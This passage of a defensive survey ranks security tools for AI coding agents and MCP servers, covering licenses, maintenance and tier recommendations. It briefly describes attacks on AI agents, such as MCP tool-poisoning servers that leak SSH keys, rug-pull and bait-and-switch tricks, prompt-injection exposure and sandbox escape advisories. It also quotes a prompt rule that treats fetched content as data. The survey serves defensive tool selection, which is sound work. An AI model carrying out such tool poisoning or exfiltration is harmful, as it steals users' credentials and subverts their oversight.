| 59 | [modelcontextprotocol/registry](https://github.com/modelcontextprotocol/registry) | MCP provenance | Official registry with namespace ownership verification (DNS/HTTP/GitHub OIDC), OCI validation | 2025-02-05 | [2026-08-10](https://api.github.com/repos/modelcontextprotocol/registry) | [7157](https://api.github.com/repos/modelcontextprotocol/registry) | **NOASSERTION** (MIT→Apache, per-contribution) | Active; **5 advisories** incl. unauth SSRF via IPv6 6to4/NAT64, replayable OIDC tokens | M C L D | Legal | 6 |
| 60 | [invariantlabs-ai/mcp-injection-experiments](https://github.com/invariantlabs-ai/mcp-injection-experiments) | Attack fixtures | Reproducible tool-poisoning servers (leaks SSH keys + `mcp.json` via an `add` tool) | 2025-04-06 | [2025-04-10](https://api.github.com/repos/invariantlabs-ai/mcp-injection-experiments) | [204](https://api.github.com/repos/invariantlabs-ai/mcp-injection-experiments) | **none declared** | Frozen; **do not vendor** | M L | N | 6 |
| 61 | [pydantic/monty](https://github.com/pydantic/monty) | Safe interpreter | Minimal secure Python interpreter in Rust "for use by AI" | 2023-05-28 | [2026-08-14](https://api.github.com/repos/pydantic/monty) | [8066](https://api.github.com/repos/pydantic/monty) | MIT | Very active, v0.0.21 (pre-1.0) | L O | Y | 6 |
| 62 | [securego/gosec](https://github.com/securego/gosec) | Go SAST | Go security linter with the richest native output set (incl. `sarif`) | n.a. | [v2.28.0 2026-07-14](https://api.github.com/repos/securego/gosec) | n.a. | Apache-2.0 | Active, 29-d cadence | C L | Y | 6 |
| 63 | [boostsecurityio/poutine](https://github.com/boostsecurityio/poutine) | CI/CD | Only tool covering **both** GitHub Actions and GitLab CI; native SARIF | n.a. | [v1.1.6 2026-05-22](https://api.github.com/repos/boostsecurityio/poutine) | n.a. | Apache-2.0 | Active, 27-d cadence | C L D | Y | 6 |
| 64 | [PyCQA/bandit](https://github.com/PyCQA/bandit) | Python SAST | Common Python security issues; **SARIF not stated** in formatter docs | n.a. | [1.9.4 2026-02-25](https://api.github.com/repos/PyCQA/bandit) | n.a. | Apache-2.0 | Active | C L D | Y | 6 |
| 65 | [hadolint/hadolint](https://github.com/hadolint/hadolint) | Container | Dockerfile AST linting + inline ShellCheck; warns on untrusted base images; native `sarif` | n.a. | [v2.15.1 2026-07-31](https://api.github.com/repos/hadolint/hadolint) | n.a. | **GPL-3.0** | Active | C L D | Sub | 6 |
| 66 | [gadievron/honeyslop](https://github.com/gadievron/honeyslop) | Anti-slop | Planted code canaries so hallucinating AI scanners self-identify their slop | 2026-04-21 | [2026-05-20](https://api.github.com/repos/gadievron/honeyslop/commits) | [97](https://api.github.com/repos/gadievron/honeyslop) | MIT | Self-described **"quick PoC, vibe-coded as a joke (not production-grade)"** | L O | Y | 5 |
| 67 | [Team-Atlanta/aixcc-afc-atlantis](https://github.com/Team-Atlanta/aixcc-afc-atlantis) | AIxCC CRS | AIxCC-winning ensemble CRS (C/C++, Java, multilingual, patching, SARIF sub-CRSs) | 2025-08-06 | [2025-11-25](https://api.github.com/repos/Team-Atlanta/aixcc-afc-atlantis/commits) | [639](https://api.github.com/repos/Team-Atlanta/aixcc-afc-atlantis) | **GPL-3.0 per LICENSE (README says MIT)** | Snapshot, quiet | A G X D | Sub | 5 |
| 68 | [shellphish/artiphishell](https://github.com/shellphish/artiphishell) | AIxCC CRS | Agent-swarm CRS (60+ agents per CyberSecAI); Tailscale/Azure/OTel deployment | 2025-07-28 | [2025-08-27](https://api.github.com/repos/shellphish/artiphishell/commits) | [137](https://api.github.com/repos/shellphish/artiphishell) | MIT | Competition snapshot, ops-heavy | A G X L D | Y | 5 |
| 69 | [slowmist/MCP-Security-Checklist](https://github.com/slowmist/MCP-Security-Checklist) | Knowledge asset | Comprehensive MCP security checklist | 2025-04-12 | [2025-04-28](https://api.github.com/repos/slowmist/MCP-Security-Checklist) | [835](https://api.github.com/repos/slowmist/MCP-Security-Checklist) | MIT | **Frozen Apr 2025**, predates OWASP MCP Top 10 | M | Y | 5 |
| 70 | [bearer/bearer](https://github.com/bearer/bearer) | Dataflow SAST | Security **and** privacy (PII/GDPR) dataflow rules; Cycode-owned | 2022-09-27 | [2026-08-03](https://api.github.com/repos/bearer/bearer/commits) | [2726](https://api.github.com/repos/bearer/bearer) | **Elastic License 2.0** — not OSI | Active but **license blocks managed-service use** | C L D O | N | 5 |
| 71 | [trufflesecurity/trufflehog](https://github.com/trufflesecurity/trufflehog) | Secrets | 800+ types, 700+ *verified* detectors with live credential validation | n.a. | [v3.97.0 2026-08-14](https://api.github.com/repos/trufflesecurity/trufflehog) | n.a. | **AGPL-3.0** | Very active; measured precision 0.06 | L D | Sub (isolated) | 4 |
| 72 | [stacklok/codegate](https://github.com/stacklok/codegate) | Assistant proxy | Local gateway redacting secrets/PII and flagging malicious packages in AI suggestions | 2024-11-11 | [2025-06-05](https://api.github.com/repos/stacklok/codegate/commits) | [790](https://api.github.com/repos/stacklok/codegate) | Apache-2.0 | **ARCHIVED + README DEPRECATED** — architecture correct, ownership vacant | A G L D O | Y (dead code) | 4 |
| 73 | [riseandignite/mcp-shield](https://github.com/riseandignite/mcp-shield) | MCP scanner | Scans installed MCP configs for tool poisoning, exfil channels, cross-origin escalation; `--identify-as` bait-and-switch test | 2025-04-15 | [2025-04-26](https://api.github.com/repos/riseandignite/mcp-shield) | [555](https://api.github.com/repos/riseandignite/mcp-shield) | MIT | **Dead ~16 months** | A M L | Y | 4 |
| 74 | [eqtylab/mcp-guardian](https://github.com/eqtylab/mcp-guardian) | MCP proxy | Per-tool-call approve/deny with full message logging | 2025-02-02 | [2025-04-10](https://api.github.com/repos/eqtylab/mcp-guardian) | [199](https://api.github.com/repos/eqtylab/mcp-guardian) | Apache-2.0 | **Abandoned ~16 months** | M L D | Y | 4 |
| 75 | [MCP-Defender/MCP-Defender](https://github.com/MCP-Defender/MCP-Defender) | MCP interception | Desktop app blocking malicious MCP traffic in Cursor/Claude/VS Code/Windsurf | 2025-05-28 | [2026-06-05](https://api.github.com/repos/MCP-Defender/MCP-Defender) | [255](https://api.github.com/repos/MCP-Defender/MCP-Defender) | **AGPL-3.0** | **Acquired by Docker Inc.**; strategically frozen | A G M | N | 4 |
| 76 | [semgrep/mcp](https://github.com/semgrep/mcp) | MCP server | MCP tool surface for semgrep scanning | 2025-03-17 | [2025-10-28](https://api.github.com/repos/semgrep/mcp/commits) | [683](https://api.github.com/repos/semgrep/mcp) | MIT | **ARCHIVED / deprecated** — folded into the semgrep binary | A M L D O | Y (archived) | 4 |
| 77 | [theori-io/aixcc-afc-archive](https://github.com/theori-io/aixcc-afc-archive) | AIxCC CRS | RoboDuck finals snapshot; README warns a run "can easily spend $1,000 or more in under an hour" | 2025-07-14 | [2025-08-05](https://api.github.com/repos/theori-io/aixcc-afc-archive/commits) | [271](https://api.github.com/repos/theori-io/aixcc-afc-archive) | **AGPL-3.0** | **ARCHIVED, explicitly unsupported**; permissioned Docker images | A G X L D | N | 4 |
| 78 | [WT-MM/slopguard](https://github.com/WT-MM/slopguard) | AI-slop linter | Zero-dep checks for AI failure modes as a blocking PostToolUse/Stop hook in Claude Code and Codex CLI | 2026-07-29 | [2026-07-31](https://api.github.com/repos/WT-MM/slopguard/commits) | [0](https://api.github.com/repos/WT-MM/slopguard) | MIT | Brand new, single author | G C L O | Y | 4 |
| 79 | [alexknowshtml/claude-code-safety-hooks](https://github.com/alexknowshtml/claude-code-safety-hooks) | Hook primitives | Instruction-source separation prompt rules + dangerous-command guard + untrusted-content defense | 2026-03-29 | [2026-03-29](https://api.github.com/repos/alexknowshtml/claude-code-safety-hooks) | [4](https://api.github.com/repos/alexknowshtml/claude-code-safety-hooks) | MIT | One-commit repo, no tests | G O | Y | 4 |
| 80 | [obra/packnplay](https://github.com/obra/packnplay) | Agent sandbox | Docker + worktree/devcontainer launcher; README **recommends Leash instead** | 2025-10-23 | [2026-03-21](https://api.github.com/repos/obra/packnplay) | [173](https://api.github.com/repos/obra/packnplay) | **no license** | Author-deprecated | G L D O | N | 4 |
| 81 | [eth-sri/sven](https://github.com/eth-sri/sven) | Guardrail research | Continuous prefixes steering code LLMs to secure/unsafe generation, CodeQL-evaluated | 2023-05-05 | [2024-07-14](https://api.github.com/repos/eth-sri/sven/commits) | [133](https://api.github.com/repos/eth-sri/sven) | MIT | **Dormant 2 yrs**, obsolete model generation | A L O | Y | 4 |
| 82 | [SunWeb3Sec/llm-sast-scanner](https://github.com/SunWeb3Sec/llm-sast-scanner) | Skill pack | 6-step source→sink taint workflow + Judge FP step over 34 vuln classes | 2026-03-29 | [2026-04-07](https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner/commits) | [274](https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner) | **none — all rights reserved** | Quiet; **install URL implies an Anthropic tie it does not have**; 4+ clones | A G O | N | 3/6\* |
| 83 | [Mishit18/claude-code-doctor](https://github.com/Mishit18/claude-code-doctor) | Agent config audit | Claims 9 "ML engines" incl. a prompt-injection scanner over repo comments/configs/encoded strings | 2026-04-11 | [2026-04-11](https://api.github.com/repos/Mishit18/claude-code-doctor) | [1](https://api.github.com/repos/Mishit18/claude-code-doctor) | MIT | **Single commit, 1★, no releases — abandoned at birth**; claims unverified | A G M X C L O | Y | 3 |
| 84 | [borenstein/yolo-cage](https://github.com/borenstein/yolo-cage) | Agent governance | VM sandboxes per branch; agents "can't exfiltrate secrets or merge their own PRs" | 2026-01-11 | [2026-02-01](https://api.github.com/repos/borenstein/yolo-cage) | [109](https://api.github.com/repos/borenstein/yolo-cage) | **MIT with CLAUDE.md all-rights-reserved carve-out** | **ARCHIVED** | G L | Legal | 3 |
| 85 | [genia-dev/vibraniumdome](https://github.com/genia-dev/vibraniumdome) | LLM runtime security | OTel-ingesting "Shields" for OWASP LLM Top 10; **not code security** | 2023-11-29 | [2024-10-28](https://api.github.com/repos/genia-dev/vibraniumdome/commits) | [29](https://api.github.com/repos/genia-dev/vibraniumdome) | **GPL-3.0** | **Dormant ~22 months**; frequently mislabelled | A G D O | Sub | 3 |
| 86 | [github/codeql-cli-binaries](https://github.com/github/codeql-cli-binaries) | SAST engine | Best-documented accuracy of any engine here (Juliet ~71% precision; 35.7% file-level precision on real CVEs) | n.a. | [v2.26.3 2026-08-12](https://api.github.com/repos/github/codeql-cli-binaries) | n.a. | **GitHub CodeQL Terms & Conditions** | Active; **license bars non-OSS/commercial use without paid Code Security** | C L | N | 3 |
| 87 | [semgrep/semgrep-rules](https://github.com/semgrep/semgrep-rules) | Rule corpus | The de-facto community rule corpus | n.a. | [pushed 2026-07-31](https://api.github.com/repos/semgrep/semgrep-rules) | n.a. | **Semgrep Rules License v1.0** | Active; **"does not allow you to distribute the rules or to make them available to others as a service"** | — | N | 2 |
| 88 | [presidentbeef/brakeman](https://github.com/presidentbeef/brakeman) | Ruby SAST | Best-in-class Rails taint analysis, native SARIF | n.a. | [v8.0.6 2026-08-12](https://api.github.com/repos/presidentbeef/brakeman) | n.a. | **Brakeman Public Use License** — not OSI | Active; commercial SaaS/embedding **requires a paid license** | C L | N | 3 |
| 89 | [praetorian-inc/noseyparker](https://github.com/praetorian-inc/noseyparker) | Secrets | Rust secret scanner; publishes the only concrete runtime figure in the field ("Runtime: 17 seconds") | n.a. | [v0.24.0 2025-05-08](https://api.github.com/repos/praetorian-inc/noseyparker) | n.a. | Apache-2.0 | **`archived: true`** | L D | Y (archived) | 2 |
| 90 | [tenable/terrascan](https://github.com/tenable/terrascan) | IaC | IaC policy scanning | n.a. | [v1.19.9 2024-09-18](https://api.github.com/repos/tenable/terrascan) | n.a. | Apache-2.0 | **`archived: true`** | C L D | Y (archived) | 2 |
| 91 | [trailofbits/afc-buttercup](https://github.com/trailofbits/afc-buttercup) | AIxCC CRS | As-submitted competition snapshot; README ships hardcoded *test* credentials as examples | 2025-07-14 | [2025-07-14](https://api.github.com/repos/trailofbits/afc-buttercup/commits) | [98](https://api.github.com/repos/trailofbits/afc-buttercup) | **AGPL-3.0** | **ARCHIVED** | A G X L D | N | 3 |
| 92 | [42-b3yond-6ug/42-b3yond-6ug-asc](https://github.com/42-b3yond-6ug/42-b3yond-6ug-asc) | AIxCC CRS | Bug Buster semifinal submission, one-line README | 2025-08-19 | [2025-08-19](https://api.github.com/repos/42-b3yond-6ug/42-b3yond-6ug-asc/commits) | [6](https://api.github.com/repos/42-b3yond-6ug/42-b3yond-6ug-asc) | **GPL-3.0** | **ARCHIVED**, semifinal only, no docs | — | N | 2 |
| 93 | [abenstirling/VibeSecurity](https://github.com/abenstirling/VibeSecurity) | Web checker | 10–20 HTTP/TLS/header checks against a URL; premium "Fix Prompt" button; not code analysis | 2025-08-31 | [2025-09-02](https://api.github.com/repos/abenstirling/VibeSecurity/commits) | [12](https://api.github.com/repos/abenstirling/VibeSecurity) | MIT | **Abandoned after 2 days** | — | Y | 2 |
| 94 | [coplane/localsandbox](https://github.com/coplane/localsandbox) | Sandbox | AgentFS/Pyodide sandbox; README warns it is beta, **not security audited**, and "should not be relied upon as a fully secure sandbox" | 2026-01-16 | [2026-04-15](https://api.github.com/repos/coplane/localsandbox) | [157](https://api.github.com/repos/coplane/localsandbox) | **no license** | Do not use for hostile input | L O | N | 3 |

\* `llm-sast-scanner` scores **6 for prompt-design value** and **0 for reuse rights**; the composite is shown as `3/6` deliberately.

### 4.2 Tier rankings

#### Tier S — load-bearing, adopt now

| Repo | Justification |
|---|---|
| [opengrep/opengrep](https://github.com/opengrep/opengrep) | The only deterministic polyglot SAST engine that is both actively developed (7-day median release gap) and legally usable in a redistributed commercial product, because it carries no Semgrep-rules entanglement ([InfoQ](https://www.infoq.com/news/2025/02/semgrep-forked-opengrep/)). **Caveat: it is a fork**, so upstream divergence and rule-ecosystem fragmentation are standing risks; keep it behind a subprocess boundary for LGPL hygiene. |
| [aquasecurity/trivy](https://github.com/aquasecurity/trivy) | One Apache-2.0 binary covers vulnerabilities, misconfiguration, secrets and licenses with JSON+SARIF for all four, plus a documented air-gap path via self-hosted OCI databases and an embedded checks fallback ([air-gap docs](https://trivy.dev/docs/latest/advanced/air-gap/)). Mirror its DBs yourself: they are pulled from ghcr.io with Docker Hub fallback on HTTP 429 ([DB docs](https://trivy.dev/docs/latest/configuration/db/)). |
| [google/osv-scanner](https://github.com/google/osv-scanner) | The only tool in the entire matrix with an explicit offline guarantee — "No network connection is required after the initial database download" — plus native SARIF 2.1.0 ([repo](https://github.com/google/osv-scanner), [output docs](https://google.github.io/osv-scanner/output/)). Indispensable for VibeGuard's offline mode and as a second opinion against Trivy's matcher. |
| [gitleaks/gitleaks](https://github.com/gitleaks/gitleaks) | Highest measured F1 (0.60) and recall (0.88) of nine secret scanners on SecretBench, versus TruffleHog's F1 0.11 ([Basak et al.](https://bradreaves.net/publication/bcrw23/bcrw23.pdf)). MIT, native SARIF, Docker and Action. One good secret scanner beats three. |
| [safedep/vet](https://github.com/safedep/vet) | Best-maintained permissive dependency gate with policy-as-code and a native MCP interface; last commit 2026-08-16 ([commits](https://api.github.com/repos/safedep/vet/commits)). Directly serves the hallucinated-dependency wedge. |
| [anthropic-experimental/sandbox-runtime](https://github.com/anthropic-experimental/sandbox-runtime) | The reference implementation for isolating the scan itself: OS-level FS and network restriction without containers, Apache-2.0, 4,983★ in ~10 months. **Flag: it is a Beta Research Preview with API churn, it has advisory `GHSA-9gqj-5w7c-vx47` "Network Sandboxing Escape", and macOS `sandbox-exec` is deprecated by Apple** ([advisories](https://api.github.com/repos/anthropic-experimental/sandbox-runtime/security-advisories)). |
| [GitHubSecurityLab/seclab-taskflow-agent](https://github.com/GitHubSecurityLab/seclab-taskflow-agent) | Exactly the orchestration layer VibeGuard's S6 needs — YAML taskflows, Pydantic validation, checkpoint/resume, configurable AI endpoint so local models work — from GitHub Security Lab, MIT. Detection quality still comes from the flows you write. |
| [trailofbits/mcp-context-protector](https://github.com/trailofbits/mcp-context-protector) | The best wrapper primitive in the MCP category and the only one designed as an enforcement point rather than an install-time scan: trust-on-first-use config pinning, unapproved-change blocking (rug-pull defence), response quarantine, ANSI sanitisation, Apache-2.0, **no advisories at fetch**. **Flag: no tagged releases and a 6-month commit gap** ([api](https://api.github.com/repos/trailofbits/mcp-context-protector)). |

#### Tier A — strong, adopt with named caveats

| Repo | Justification |
|---|---|
| [iris-sast/iris](https://github.com/iris-sast/iris) | The strongest published "LLM + real dataflow engine" recipe, with the numbers to prove it (55/120 vs CodeQL 27/120 on CWE-Bench-Java, [paper](https://arxiv.org/abs/2405.17238)). **Copy the pattern, not the dependency**: it needs CodeQL, whose CLI license VibeGuard cannot accept (§5.3). |
| [anthropics/claude-code-security-review](https://github.com/anthropics/claude-code-security-review) | The reference CI-native review loop, MIT, 5,865★. Adopt the diff-aware + FP-filtering design; **do not adopt its threat posture** — the vendor states it is not hardened against prompt injection and is only for trusted PRs ([repo](https://github.com/anthropics/claude-code-security-review)). Also ~6 months without commits. |
| [cisco-ai-defense/mcp-scanner](https://github.com/cisco-ai-defense/mcp-scanner) | Cleanest "pluggable engines behind one SDK" design to copy, with CLI **and** REST, Docker, `--fix`, and local-LLM/offline modes. Full fidelity wants Cisco AI Defense keys, and YARA rules need continuous curation. |
| [snyk/agent-scan](https://github.com/snyk/agent-scan) | Best-funded, broadest coverage (agents + MCP + skills) with rug-pull detection via a pinned state file. **Three flags: it is a rename of `invariantlabs-ai/mcp-scan`, its CLI output is explicitly experimental with v0.5.x "planned for deprecation", and the original tool shared tool names/descriptions with invariantlabs.ai for verification** — a data-egress consideration ([README](https://api.github.com/repos/snyk/agent-scan/readme)). |
| [strongdm/leash](https://github.com/strongdm/leash) | The only mature Cedar-policy enforcement layer for coding agents, and recommended over `packnplay` by that project's own author. Flag: 4 months without a commit at fetch, container dependency for full function. |
| [DataDog/guarddog](https://github.com/DataDog/guarddog) | The "is this the attacker's slopsquat?" engine — YARA source rules plus metadata heuristics that require capability **and** threat indicator in the same file to reduce noise. Apache-2.0, very active. |
| [anchore/syft](https://github.com/anchore/syft) + [bridgecrewio/checkov](https://github.com/bridgecrewio/checkov) + [ossf/scorecard](https://github.com/ossf/scorecard) + [zizmorcore/zizmor](https://github.com/zizmorcore/zizmor) | The remaining four of the eight-tool default stack. Syft supplies the binary-level SBOM corroboration that the SCA-evasion study demands ([Ivanova et al.](https://cyberlab.usask.ca/papers/SCA_Tools_analysis__ISC24.pdf)); Checkov brings independent IaC rule provenance; Scorecard is the only cheap answer to "should I trust this repo at all?"; zizmor is the best-maintained Actions auditor. **Flag: zizmor does not document SARIF and Scorecard's CLI emits only text/JSON — both need thin adapters** ([zizmor usage](https://docs.zizmor.sh/usage/), [scorecard-action](https://github.com/ossf/scorecard-action)). |
| [YawLabs/ctxlint](https://github.com/YawLabs/ctxlint) | The single best existing fit for agent-config linting (`CLAUDE.md`, `AGENTS.md`, `.cursorrules`, `.mcp.json`) with auto-fix, CI and MCP-server modes, MIT, near-daily releases. **Flag: 7 stars, no security audit, and its focus is correctness-vs-codebase rather than adversarial injection** — so it is an input to S1, not S1 itself. |
| [highflame-ai/ramparts](https://github.com/highflame-ai/ramparts) | The only scanner that treats **skills** as a first-class attack surface alongside MCP, with OWASP MCP Top 10 tagging, Apache-2.0, single Rust binary. **Flags: 96★, ownership changed from getjavelin, and last-commit date is Unverified.** |
| [jingkaihe/matchlock](https://github.com/jingkaihe/matchlock) / [earendil-works/gondolin](https://github.com/earendil-works/gondolin) | The credential-brokering microVM pattern — the agent sees a placeholder, the host injects the real token only for allowlisted destinations — is the only reviewed control that survives a *successful* prompt injection. **Both self-describe as experimental; matchlock needs KVM or Apple Silicon, which blocks generic CI runners.** |
| [luckyPipewrench/pipelock](https://github.com/luckyPipewrench/pipelock) | Mediator-signed action receipts are rare and directly serve VibeGuard's evidence-bundle requirement. Flag: young, single-maintainer-style org, very broad claim surface. |
| [trailofbits/buttercup](https://github.com/trailofbits/buttercup) / [fuzzingbrain/afc-crs...](https://github.com/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain) / [shellphish/PatcherY](https://github.com/shellphish/PatcherY) | The three live sources of verified-patch design. FuzzingBrain's "every finding dynamically verified to eliminate hallucinations" and PatcherY's `--generate-verified-patch` are the closest existing analogues to wedge W1. **Buttercup is AGPL-3.0 (subprocess only) and needs 8 cores/16 GB/100 GB; PatcherY carries an ~8 GB test container.** |
| [muence-ai/vibesec](https://github.com/muence-ai/vibesec) | The evaluation harness VibeGuard should be graded on: 1,000 tasks where the exploit must die and behaviour must be preserved, and explicitly "No model judges the result". Flag: created 2026-08-06, 2★, single stack. |

#### Tier B — useful, narrow, or needs work

| Repo | Justification |
|---|---|
| [kapilduraphe/mcp-watch](https://github.com/kapilduraphe/mcp-watch) | The most directly liftable **detector taxonomy** in the MCP space (tool poisoning, parameter injection, mutation/rug-pull, conversation exfiltration, ANSI injection, protocol violations). Heuristic depth is shallow and there is a 4-month gap — take the taxonomy, write the detectors. |
| [TikiTribe/claude-secure-coding-rules](https://github.com/TikiTribe/claude-secure-coding-rules) | Best permissive prevention-rule corpus covering OWASP Top 10 2025, OWASP MCP Top 10, NIST AI RMF, ATLAS and SAIF with strict/warning/advisory levels. Prevention-side only; the leftover `yourusername` clone URL is a minor quality smell. |
| [mimecast/src2sink](https://github.com/mimecast/src2sink) | The best available cheap answer to cross-repo LLM context (source in service A, sink in service B). MIT, SLSA L3 attestations — but 0★, no community and unproven. |
| [matte1782/phantom_guard](https://github.com/matte1782/phantom_guard) / [WT-MM/slopguard](https://github.com/WT-MM/slopguard) | The two most relevant slopsquatting/AI-slop artefacts. phantom_guard is the closest purpose-built, embeddable hallucination gate; slopguard demonstrates the correct **enforcement point** (a blocking PostToolUse/Stop hook inside the agent). Both are single-maintainer with 0–3 stars. |
| [secureIT-project/CVEfixes](https://github.com/secureIT-project/CVEfixes) / [meta-llama/PurpleLlama](https://github.com/meta-llama/PurpleLlama) | The training/eval data layer. CVEfixes is dormant with data frozen at 2024-07-23 CVEs, so re-run collection yourself; PurpleLlama's Llama Community License is **conditional** for commercial use and needs reading before any embedding. |
| [stacklok/toolhive](https://github.com/stacklok/toolhive) / [IBM/mcp-context-forge](https://github.com/IBM/mcp-context-forge) / [docker/mcp-gateway](https://github.com/docker/mcp-gateway) / [agentgateway/agentgateway](https://github.com/agentgateway/agentgateway) | Enterprise MCP isolation and gateways. Useful as **checklist evidence** for what a scanner should look for, less so as dependencies — between them they account for the majority of advisories in §7.4, including two criticals in docker/mcp-gateway and a hardcoded default JWT secret in ContextForge. |
| [microsoft/wassette](https://github.com/microsoft/wassette) / [pydantic/monty](https://github.com/pydantic/monty) / [google/gvisor](https://github.com/google/gvisor) / [containers/bubblewrap](https://github.com/containers/bubblewrap) / [kubernetes-sigs/agent-sandbox](https://github.com/kubernetes-sigs/agent-sandbox) | Isolation primitives for S0/S8. gvisor is the standard syscall-interception layer; bubblewrap is what `srt` and `ai-jail` actually use and carries **two setuid privilege-escalation CVEs (CVE-2026-41163, CVE-2020-5291)** — prefer non-setuid/userns deployments. Wassette says "not production ready"; monty is pre-1.0. |
| [harishsg993010/damn-vulnerable-MCP-server](https://github.com/harishsg993010/damn-vulnerable-MCP-server) / [invariantlabs-ai/mcp-injection-experiments](https://github.com/invariantlabs-ai/mcp-injection-experiments) | The best available regression fixtures for MCP attack detection. **Both have no license: use as external targets only, never vendor.** Both are also frozen and predate newer attack classes. |
| [Team-Atlanta/aixcc-afc-atlantis](https://github.com/Team-Atlanta/aixcc-afc-atlantis) / [shellphish/artiphishell](https://github.com/shellphish/artiphishell) / [AIxCyberChallenge/sherpa](https://github.com/AIxCyberChallenge/sherpa) | Read for ideas and prompts, not for code. Atlantis has a **README-vs-LICENSE conflict resolved as GPL-3.0**; artiphishell's deployment path is Tailscale/Azure/OTel-specific; sherpa is frozen since 2025-08 but its ~80%-of-FPs-filtered triage design is directly reusable. |
| [gadievron/honeyslop](https://github.com/gadievron/honeyslop) | A cheap, novel defence against your own agent's false positives — and a warning, since it exists because maintainers received an AI slop report on their own project. Self-described as not production-grade. |
| [splx-ai/agentic-radar](https://github.com/splx-ai/agentic-radar) | Relevant because AI-generated repos increasingly *are* agent workflows; maps tools/data flows and flags risky tools and MCP servers. **Quiet since 2025-11-27** and oriented to LangGraph/CrewAI rather than coding-agent harnesses. |
| [securego/gosec](https://github.com/securego/gosec), [PyCQA/bandit](https://github.com/PyCQA/bandit), [boostsecurityio/poutine](https://github.com/boostsecurityio/poutine), [hadolint/hadolint](https://github.com/hadolint/hadolint) | Tier-2 language/ecosystem add-ons, enabled per repo rather than by default. Bandit needs an external SARIF wrapper; hadolint is **GPL-3.0 → subprocess only**; poutine is the only GitLab-CI coverage. |
| [Dicklesworthstone/destructive_command_guard](https://github.com/Dicklesworthstone/destructive_command_guard) | Widest agent-harness hook coverage found and very active, but it is a **blocklist** (bypassable by obfuscated commands, per the argument-injection literature) and its "MIT with OpenAI/Anthropic Rider" license needs legal review despite looking MIT-shaped. |

#### Tier C — reference only

| Repo | Justification |
|---|---|
| [stacklok/codegate](https://github.com/stacklok/codegate) | **ARCHIVED + DEPRECATED**, yet its architecture — a local proxy between assistant and model that redacts secrets and flags malicious/deprecated packages in AI suggestions — is exactly right for slopsquatting defence and is currently **unowned**. Read the design, do not depend on the code. |
| [riseandignite/mcp-shield](https://github.com/riseandignite/mcp-shield) / [eqtylab/mcp-guardian](https://github.com/eqtylab/mcp-guardian) / [makalin/SecureMCP](https://github.com/makalin/SecureMCP) | Dead ~16 months each, yet each contributes one reusable idea: mcp-shield's `--identify-as` client-dependent bait-and-switch test, mcp-guardian's human-in-the-loop per-tool-call approval proxy, SecureMCP's audit checklist. Use the ideas and the check lists, not the code. |
| [slowmist/MCP-Security-Checklist](https://github.com/slowmist/MCP-Security-Checklist) | MIT-licensed reusable text, but content is frozen at April 2025 and predates the OWASP MCP Top 10. |
| [alexknowshtml/claude-code-safety-hooks](https://github.com/alexknowshtml/claude-code-safety-hooks) | One-commit repo, but its "user messages are instructions, everything fetched from outside is data" prompt block is a directly vendorable text artefact for VibeGuard's T2 envelope (D7). |
| [Mishit18/claude-code-doctor](https://github.com/Mishit18/claude-code-doctor) | The closest thing anyone has published to "scan an untrusted repo for agent-hijacking content" — and it is a single commit with 1 star, no releases and unverified claims. Design inspiration and market proof of the gap, nothing more. |
| [eth-sri/sven](https://github.com/eth-sri/sven) / [aryakvnust/LLMSecGuard](https://github.com/aryakvnust/LLMSecGuard) | Conceptually important prevention-side research (secure-generation steering; static-analyser-in-the-loop prompting), both dormant with obsolete model generations; LLMSecGuard has no license file. |
| [semgrep/mcp](https://github.com/semgrep/mcp) / [semgrep/mythos-bench](https://github.com/semgrep/mythos-bench) | semgrep/mcp is archived (use the semgrep binary's built-in MCP); mythos-bench is a two-day, unlicensed research drop whose value is as a **template** for measuring "does tool access improve detection?". |
| [google/mcp-security](https://github.com/google/mcp-security) | Frequently miscategorised: these are MCP **servers exposing Google security products**, i.e. a threat-intel enrichment source for VibeGuard, not an MCP-security scanner. |

#### Avoid

| Repo | Reason |
|---|---|
| [semgrep/semgrep-rules](https://semgrep.dev/legal/rules-license) | **License trap, fatal.** "You may use the rules only for your own internal business purposes… does not allow you to distribute the rules or to make them available to others as a service." VibeGuard must ship its own rule corpus. |
| [github/codeql-cli-binaries](https://github.com/github/codeql-cli-binaries/blob/main/LICENSE.md) | **License trap.** Permitted only for OSS/academic use or CI on OSS hosted on GitHub.com absent paid GitHub Code Security; "may not be used for any purpose not expressly set forth above". Excluded despite having the best measured precision in the matrix. |
| [presidentbeef/brakeman](https://github.com/presidentbeef/brakeman/blob/main/LICENSE.md) | **License trap.** Commercial SaaS, commercial distribution and use "as a component of a value-added service/product" all require a paid license. |
| [bearer/bearer](https://github.com/Bearer/bearer/blob/main/LICENSE.txt) | **License trap.** Elastic License 2.0 is not open source and forbids providing the software to third parties as a managed service. |
| SonarQube ([license](https://www.sonarsource.com/license/)) | **License trap plus weak measurement.** Bundled analyzers moved to SSALv1 on 2024-11-29, and independent measurement puts F1 at 27.0% with 3.8% file-level precision. |
| [trufflesecurity/trufflehog](https://api.github.com/repos/trufflesecurity/trufflehog) (default path) | **AGPL-3.0** plus a behavioural hazard: live verification means making outbound calls with credentials found in *untrusted* repos. Optional, out-of-process, verification-only, AGPL-isolated — never in the default path. |
| [SunWeb3Sec/llm-sast-scanner](https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner) | **No license (all rights reserved)** plus an install URL implying an Anthropic affiliation the repo does not evidence, plus 4+ near-identical clones with inconsistent claims. Do not embed. |
| [obra/packnplay](https://api.github.com/repos/obra/packnplay), [CaptainMcCrank/SandboxedClaudeCode](https://api.github.com/repos/CaptainMcCrank/SandboxedClaudeCode), [neko-kai/claude-code-sandbox](https://api.github.com/repos/neko-kai/claude-code-sandbox) | **No license file.** packnplay's own README defers to Leash. Read the sandbox profiles as design templates; vendor nothing. |
| [coplane/localsandbox](https://api.github.com/repos/coplane/localsandbox) | **Self-vulnerable by admission**: no license, beta, "not security audited", "should not be relied upon as a fully secure sandbox for running untrusted code". Never put hostile input here. |
